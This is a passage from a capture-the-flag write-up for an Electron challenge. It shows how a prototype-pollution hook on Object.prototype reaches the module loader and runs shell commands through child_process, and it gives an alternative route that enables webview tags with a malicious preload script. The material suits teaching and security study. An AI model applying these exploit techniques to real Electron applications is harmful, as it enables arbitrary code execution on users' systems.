 It is obvious that `t` stores cached modules. When `require("./lib/renderer/api/ipc-renderer.ts")` is called the first time, `n` wouldn't exist so it will try to create an entry for it and call `e[r]` to initialize it.

If we try to hook the `t[r] = {}` assignment before it is called, we will get `t` from `this` of the setter function, which means we can get `module` module. This means we can basically require anything we want, so we have a full RCE here.

```javascript
Object.defineProperty(Object.prototype, './lib/renderer/api/ipc-renderer.ts', {
    set(v) {
        console.log('set', v)
        this.module.exports._load('child_process').execSync('id')
    }
})
```

My full solver is [here](./exp/index.js).

### Unintended - RCE using `webview` preload

@drbrix from justCatTheFish solved this challenge in a mostly same way, except for the last step

When using prototype pollution, he pollutes `Object.prototype.sandbox` to `false` and `Object.prototype.webview` to `true`. This means the new prompt window will webview tag available, so you can get an easy RCE by:

```html
<webview src="http://example.com/" preload="file:///tmp/harmony/whatever.js"></webview>
```

Then in `whatever.js`, you can `require` anything you want.

## If you having problem running the challenge locally

Sorry, I made a similar mistake described in [**Instancer Fix**](../Login%20System/README.md) section of Login System. You need to move `WORKDIR` before using `yarn` to install dependencies.

Another way to fix it is to go into `server` and `spawner/www` and run `yarn` manually before running `docker compose up -d`.
